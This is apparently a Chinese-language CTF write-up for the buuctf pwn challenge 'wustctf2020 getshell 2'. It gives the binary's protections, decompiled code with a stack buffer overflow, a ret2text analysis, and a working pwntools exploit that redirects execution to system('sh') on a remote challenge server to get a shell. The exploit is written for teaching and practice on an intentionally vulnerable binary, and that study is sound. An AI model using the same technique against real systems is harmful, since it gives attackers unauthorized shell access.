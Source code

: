 ```yaml
---
author: 
  name: Zephyr
title: wustctf2020 getshell 2
date: 2022-4-7 08:45:20
permalink: /pages/2e1547494524d1ac
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# wustctf2020 getshell 2

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/wustctf2020_getshell_2/wustctf2020_getshell_2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  vulnerable();
  return 0;
}
```

vulnerable函数如下：

```c
ssize_t vulnerable()
{
  char buf; // [esp+0h] [ebp-18h]

  return read(0, &buf, 0x24u);
}
```

shell函数如下：

```c
int shell()
{
  return system("/bbbbbbbbin_what_the_f?ck__--??/sh");
}
```

Gadget:

```shell
ROPgadget --binary wustctf2020_getshell_2 --string "/sh\x00"
Strings information
============================================================
0x08048670 : sh
```



## 思路分析

1. 目前信息：

   - vulnerable函数存在溢出点可溢出2个栈帧
   - shell函数提供了system与sh
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - ret2text

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/wustctf2020_getshell_2/wustctf2020_getshell_2'
io = remote('node4.buuoj.cn', 29247)
# io = process(pwnfile)
padding = 0x18+4
system_addr = 0x8048529
sh_addr = 0x8048670
# 只能溢出2个栈帧
# 使用plt中的system需要添加一个栈帧为返回地址长度，长度超出了
# 所以这里使用现有的程序中的call system会自动压入返回地址 少去一个栈帧
payload = flat(['a'*padding, system_addr, sh_addr])
io.recv()
io.sendline(payload)
io.interactive()
```

